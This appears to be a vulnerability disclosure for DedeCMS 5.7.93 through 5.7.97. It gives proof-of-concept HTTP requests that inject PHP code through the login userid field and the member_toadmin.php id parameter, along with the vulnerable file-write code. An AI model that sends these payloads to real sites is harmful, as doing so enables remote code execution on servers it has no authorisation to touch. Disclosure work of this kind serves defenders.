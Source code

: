 ### POC

```
POST /dede/login.php HTTP/1.1
Host: dedecms5793
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=e9ag7oevkh77gnko3cdmt7mbc2

dopost=login&userid=%5C%27.phpinfo%28%29%3B%3F%3E&pwd=123&validate=hw0k
```

### Details

DedeCMS v5.7.93 added the login failure lock function to file ```/dede/login.php``` to comply with relevant web security regulations. When a user fails to login, the failure message will be written to file ```/data/login.data.php``` to record the number of failed login attempts for that user.

```php

    $arr_login[$userid] = "{$count},{$timestamp}";
    $content = "<?php\r\n\$str_login='" . json_encode($arr_login) . "';";

    $fp = fopen($filename, 'w') or die("写入文件 $filename 失败，请检查权限！");
    fwrite($fp, $content);
    fclose($fp);
                
```

![2022-06-16_163453.png](https://s2.loli.net/2022/07/06/GgCswPhJr7cRiEa.png)

![2022-07-06_201636.png](https://s2.loli.net/2022/07/06/hTMCgqXz2Qmp7Du.png)

The file write operation does not filter the write content sufficiently, allowing an attacker to write malicious code to the file by user name and cause remote code execution.

![2022-07-06_201804.png](https://s2.loli.net/2022/07/06/9rNMpDKtq8AFTLQ.png)

## V5.7.94 - V5.7.97代码执行

- Affected product: Dedecms V5.7.94 - V5.7.97
- Attack type: Remote
- Affected component: /dede/member_toadmin.php
- Description: DedeCMS v5.7.94 was discovered to contain a remote code execution vulnerability in member_toadmin.php.
- Vendor confirmed or acknowledged: Confirmed
- Fix information: Not available


### POC

```
GET /dede/member_toadmin.php?id=%27.phpinfo();?%3E&typeids=1&dopost=toadmin&safecode=3373702420f2a357b12e6bc4&randcode=13967 HTTP/1.1
Host: www.dedecms5794.com
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=lteb30kl960vhad3q6k4psjok4; _csrf_name_96c0ebe6=f97c33dd6471fdad17230e95a4bb1629; _csrf_name_96c0ebe61BH21ANI1AGD297L1FF21LN02BGE1DNG=c93476e2cd70eacb
Connection: close
```
